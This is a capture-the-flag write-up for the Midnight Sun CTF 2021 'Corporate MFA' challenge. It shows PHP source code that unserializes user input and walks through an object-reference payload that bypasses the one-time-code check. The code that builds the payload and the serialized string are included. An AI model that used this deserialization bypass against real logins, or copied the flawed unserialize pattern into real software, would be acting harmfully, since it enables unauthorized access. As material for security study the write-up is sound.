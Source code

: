 ```yaml
---
tags: web, php, unserialize, object reference
year: 2021
authors: v0n3x
---
```

# Corporate MFA

This is a write-up for the **Corporate MFA** challenge from the **Midnight Sun CTF 2021 Quals**. For this challenge we were given a website with a login form, the source code and the following description:

```
The source for this corporate zero-trust multi factor login portal has been leaked!
Figure out how to defeat the super-secure one time code.
```

![screenshot](./assets/corp-mfa-login-form.png)

Checking the source there's 2 interesting PHP files:
* index.php
* user.php

Starting with the `index.php` file, we can verify that our login input gets serialized and returned as a base64 encoded value on a `userdata` GET parameter. After that it checks if the GET parameter exists, creates a new `User` object with our input (after base64 decoded) and then proceeds to call the `verify()` function within `user.php`. Finally, if that verification is successful, it will give us our flag.
```php
if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	...
	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	...
}
```

Moving on to `user.php` the following occurs:  
At the start of the file we see that the `user` object is getting unserialized. This is where the exploit starts, our entry point.
```php
public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}
```

Now, checking our previously called `verify()` function, it's calling another 3 functions for each of our input which we gonna breakdown.
```php	
public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}
```

### verifyUsername()
```php
private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```
This one is pretty simple, it has the username hardcoded which is **D0loresH4ze**.

### verifyPassword()
```php
private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```
This verification uses the ``password_verify()`` function which checks our given password against a hash. Checking the [manual](https://www.php.net/manual/en/function.password-verify.php) for that function, we find out that the used hash is the same shown on the manual example. We now have the password **rasmuslerdorf**.

### verifyMFA()
```php
private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```
The MFA token is a generated random number, from **1e10** to **1e11 - 1** (**10000000000** to **99999999999**), that is stored to our `_correctValue` field value and then compared against our input. Can't really predict the MFA value and neither brute force it. However, we can use PHP object references and serialization format to find the correct value.

The way to solve this is by editing our serialized data and reference `mfa` to the value of `_correctValue`.

## Building the payload
To solve the problem we can edit our serialized data and make a reference to the value of `_ correctValue`.  
We use the following code for that:
```php
<?php
    $payload = array();

    $payload['username'] = "D0loresH4ze";
    $payload['password'] = "rasmuslerdorf";
    $payload['_correctValue'] = null;
    $payload['mfa'] = &$payload['_correctValue'];

    echo serialize((object)$payload);
?>
```

Giving the following serialized data:  
```
O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";N;s:3:"mfa";R:4;}
```

> The N flag is a null value and the R flag is a pointer reference, more info on that at the Resources section.

The pointer reference is to the index of **4** cause of the way PHP unserialization data gets stored. Unserialize keeps a table of all the created variables so it supports references. This table always starts at index **1**. Our data should look like this:

Index     | Variable        | Value
----------|-----------------|-------------------
1         | "stdClass"      | 
2         | "username"      | "D0loresH4ze"
3         | "password"      | "rasmuslerdorf"
4         | "_correctValue" | null
5         | "mfa"           | 4

So, `stdClass` works like an associative array for our `user` input, then `_correctValue` starts with a **null** value which will be replaced later on, as we've seen on `user.php` code. Our `mfa` points to the value of the index **4** variable (`_correctValue`).


## Flag
We can now base64 encode our final payload, use it as the value of the `userdata` parameter and send it, thus retrieving the flag.  

Flag: `midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}`

## Resources
1. [PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html#php-s-serialization-format)
2. [PHP serialization (serialize) format of the detailed](https://topic.alibabacloud.com/a/php-serialization-serialize-format-of-the-detailed_1_34_10040044.html)
3. [Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)